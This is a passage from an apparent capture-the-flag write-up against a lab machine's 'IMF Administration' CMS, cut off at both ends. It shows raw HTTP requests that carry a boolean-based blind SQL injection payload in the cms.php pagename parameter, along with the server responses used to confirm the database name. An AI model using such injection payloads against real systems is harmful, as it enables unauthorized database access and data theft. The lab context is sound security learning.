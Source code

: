   ```php

Accept-Language: es-419,es;q=0.9

Cookie: PHPSESSID=rftk9b1ducfunqjmrks8bcfb04

Connection: close

  ```
  
  output
  
  
  ```php
  <br /><br/>

Welcome to the IMF Administration.</body>

</html>


  ```
what happens if instead of admin we add another thing that is not true ?

let's check 
```php
GET /imfadministrator/cms.php?pagename=home'+and+(select+database())%3d'adminoes HTTP/1.1

Host: 192.168.100.52

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://192.168.100.52/imfadministrator/cms.php?pagename=home

Accept-Encoding: gzip, deflate

Accept-Language: es-419,es;q=0.9

Cookie: PHPSESSID=rftk9b1ducfunqjmrks8bcfb04

Connection: close



```
output, that's how we make sure the databased selected. look we did not receive imf admin 

```php
HTTP/1.1 200 OK

Date: Sun, 07 May 2023 03:01:59 GMT

Server: Apache/2.4.18 (Ubuntu)

Expires: Thu, 19 Nov 1981 08:52:00 GMT

Cache-Control: no-store, no-cache, must-revalidate

Pragma: no-cache

Vary: Accept-Encoding
```